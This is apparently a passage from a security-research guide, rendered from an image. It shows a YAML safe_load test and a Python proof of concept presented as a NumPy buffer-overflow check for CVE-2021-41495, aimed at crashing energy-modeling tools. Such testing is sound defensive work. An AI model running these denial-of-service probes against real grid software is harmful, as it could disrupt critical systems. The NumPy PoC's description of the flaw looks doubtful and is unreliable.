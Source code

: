 ```python
    # SAFE ALTERNATIVE
    print("\n[*] Testing safe alternative...")
    try:
        safe_data = yaml.safe_load(malicious_yaml)
        print("[+] safe_load() blocked malicious payload")
    except yaml.YAMLError as e:
        print(f"[+] safe_load() correctly rejected input: {e}")

# RESEARCH FINDINGS TO DOCUMENT:
# 1. Exploitability: YES/NO
# 2. Prerequisites: User must parse untrusted YAML
# 3. Mitigation: Use yaml.safe_load() instead
# 4. Impact on energy sector: HIGH (many tools parse config files)
```

#### **Example 2: NumPy Buffer Overflow (CVE-2021-41495)**

```python
# File: poc_numpy_overflow.py
"""
PoC for NumPy Buffer Overflow
CVE-2021-41495 - Affected versions: < 1.22

Tests for DoS potential in energy modeling applications
"""

import numpy as np
import sys

def test_buffer_overflow():
    """Test NumPy buffer overflow with large dimensions."""

    print("[*] Testing NumPy buffer overflow vulnerability")
    print(f"[*] NumPy version: {np.__version__}")

    try:
        # Attempt to create array with excessive dimensions
        # This could crash energy simulation software
        large_dims = [1] * 50  # 50 dimensions
        arr = np.empty(large_dims)

        print("[!] VULNERABLE: Large dimension array created")
        print(f"[!] Memory usage: {sys.getsizeof(arr)} bytes")

    except Exception as e:
        print(f"[+] Protected: Exception raised - {type(e).__name__}")
        print(f"[+] Message: {e}")

# ENERGY SECTOR IMPACT:
# - Many energy models use NumPy for calculations
# - Malicious input data could crash simulations
# - DoS attack on grid optimization tools

if __name__ == '__main__':
    test_buffer_overflow()
```

---